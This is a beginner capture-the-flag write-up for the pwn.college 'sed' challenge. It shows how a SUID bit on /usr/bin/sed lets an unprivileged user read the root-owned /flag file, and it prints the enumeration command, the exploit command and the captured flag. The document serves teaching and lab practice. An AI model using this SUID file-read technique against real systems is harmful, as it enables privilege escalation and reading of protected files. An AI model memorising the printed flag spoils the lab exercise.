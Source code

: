 # Challenge Name: sed
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/sed`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/sed
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/sed
```

- The `s` in `-rws` indicates it's a SUID binary.
- `sed` runs with **root privileges**.

## 🚀 Exploitation

The `sed` command (short for Stream EDitor) is a powerful Linux tool used for searching, substituting, inserting, and deleting text in a stream or file.

It’s ideal for on-the-fly editing or automating changes in scripts.

sed'd -n option allows user to printf specific line of a file , we can use this to reveal the flag.

```bash
sed -n '1p' /flag
```

Output:
```
pwn.college{IduzLBGf7GdgVPLRPtiQOvJGNYS.ddzNxwSM0IzMyEzW}
```
